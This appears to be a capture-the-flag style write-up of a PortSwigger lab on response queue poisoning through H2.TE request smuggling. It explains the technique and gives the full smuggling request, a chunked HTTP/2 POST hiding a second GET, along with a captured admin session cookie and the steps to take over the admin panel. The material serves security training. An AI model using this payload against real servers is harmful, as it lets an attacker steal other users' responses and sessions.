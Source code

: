 # [Lab: Response queue poisoning via H2.TE request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling)

## Lab

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

## response queue poisoning

The front-end correctly maps the first response to the initial "wrapper" request and forwards this on to the client. As there are no further requests awaiting a response, the unexpected second response is held in a queue on the connection between the front-end and back-end.

When the front-end receives another request, it forwards this to the back-end as normal. However, when issuing the response, it will send the first one in the queue, that is, the leftover response to the smuggled request.

The correct response from the back-end is then left without a matching request. This cycle is repeated every time a new request is forwarded down the same connection to the back-end.

![stealing-other-users-responses.jpg](./../img/stealing-other-users-responses.jpg)

## Detected H2.TE

- burpsuite active scan: detected hidden http 2
- burpsuite `HTTP request smuggler` extension (HTTP 2 probe): detected `HTTP/2 TE desync v10a h2path`
- smuggler.py: bad

## Attack

repeatedly send this request until a 302 response is captured:

```http
POST / HTTP/2^M$
Host: 0a6900e903253ff9c190362c00ce00a4.web-security-academy.net^M$
Accept-Encoding: gzip, deflate^M$
Accept: */*^M$
Accept-Language: en-US;q=0.9,en;q=0.8^M$
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36^M$
Cache-Control: max-age=0^M$
Content-Type: application/x-www-form-urlencoded^M$
Transfer-Encoding: chunked^M$
^M$
0^M$
^M$
GET /notfoundforsure HTTP/1.1^M$
Host: 0a6900e903253ff9c190362c00ce00a4.web-security-academy.net^M$
^M$

______________________________
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=JLK8H0shXHXoB6ozjWIyBtkHEqFlIoCW; Secure; HttpOnly; SameSite=None
Content-Length: 0
```

use captured session to access admin account, delete carlos account => solved
